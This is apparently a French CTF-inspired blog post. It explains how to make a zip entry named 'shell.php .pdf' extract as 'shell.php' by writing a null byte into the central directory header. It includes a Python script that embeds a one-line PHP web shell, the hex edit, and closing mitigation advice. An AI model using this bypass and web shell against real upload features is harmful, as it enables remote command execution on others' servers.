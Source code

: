 ```yaml
---
title: Comment faire en sorte qu'un fichier "shell.php .pdf" devienne "shell.php"
  via la décompression d'un zip ?
img_path: "/assets/img/posts/file_zip_upload_with_different_name"
categories:
- Vulnérabilités Web
- web
---
```


## Introduction

> À l'occasion de la résolution d'une machine hack the box, une incompréhension de ma part à propos d'un payload a mené à la "découverte" d'un comportement plutôt rigolo et qui pourrait s'avérer utile dans certain cas précis : avoir une archive zip où, un fichier nommé par exemple `shell.php. pdf`se transforme en `shell.php` à la décompression. Testé avec 7z et zip sur ubuntu.

### Comment ça se passe

Pour faire synthétique, voici la procédure :

- 1) Créer un fichier zip via python (script de hacktricks) :

```python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

> On remarque que le nom a un espace  entre `php` et `pdf`.

- 2) Editer le fichier zip avec une éditeur héxadécimal. Remplacer l'octet `20` par `00` du nom du fichier placé dans le *[Central Directory Header](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)*.

```hex
# avant le changement du nom dans le  Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# après le changement du nom dans le the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```

- 3) Profit :

![Proof of concept du tricks](poc.png)

### Dans quels cas c'est utile ?

De ce que je peux supputer, c'est utile si l'application ne checke pas la conformité entre le nom du fichier et ce qui est effectivement décompressé.

Cependant, si l'application ne teste que le *local file name* vis à vis du nom décompressé, cela laisse une petite fenêtre de temps pour pouvoir par exemple exécuter le fichier si exécutable (non testé) avant que le nom soit effectivement testé. Le plus safe est de tester l'égalité du *local file name* et du nom dans le *central directory header*. De plus, il faut absolument éviter de placer le fichier dans un dossier exécutable et au nom facilement devinable.
